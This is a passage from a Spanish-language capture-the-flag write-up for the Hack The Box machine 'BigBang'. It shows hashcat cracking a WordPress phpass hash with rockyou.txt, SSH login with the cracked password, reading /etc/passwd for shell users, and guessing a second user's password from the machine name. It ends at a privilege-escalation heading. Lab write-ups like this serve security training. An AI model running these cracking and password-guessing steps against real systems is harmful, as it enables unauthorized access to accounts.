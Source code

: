 Identifico que el hash pertenece al sistema de contraseñas phpass, utilizado por defecto en WordPress, y verifico que es compatible con Hashcat. Confirmo que el formato del hash es válido y detecto el modo adecuado para el crackeo.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ hashcat --show shawking_hash.txt
   # | Name                                            | Category
=====+=================================================+==============================
 400 | phpass                                          | Generic KDF
```

Ejecuto un ataque de diccionario utilizando contra el hash del usuario `shawking`, utilizando la lista de palabras `rockyou.txt`.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ hashcat -a 0 -m 400 shawking_hash.txt /usr/share/wordlists/rockyou.txt
$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics
```

La herramienta logra recuperar la contraseña del usuario, con estas credenciales, establezco una conexión SSH al sistema.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ ssh shawking@bigbang.htb
shawking@bigbang.htb's password: quantumphysics

shawking@bigbang:~$ id
uid=1001(shawking) gid=1001(shawking) groups=1001(shawking)

shawking@bigbang:~$ cat user.txt
```

---


Identifico los usuarios del sistema que tienen una shell válida.

```terminal
shawking@bigbang:~$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
shawking:x:1001:1001:Stephen Hawking,,,:/home/shawking:/bin/bash
developer:x:1002:1002:,,,:/home/developer:/bin/bash
```

Observo la presencia del usuario `developer`, lo que sugiere un posible punto de pivot. Intento autenticación local, utilizando el nombre de la máquina como contraseña `bigbang` y esta resulta ser válida.

```terminal
shawking@bigbang:~$ su developer
Password: bigbang

developer@bigbang:~$ id
uid=1002(developer) gid=1002(developer) groups=1002(developer)
```

---
## Privilege Escalation
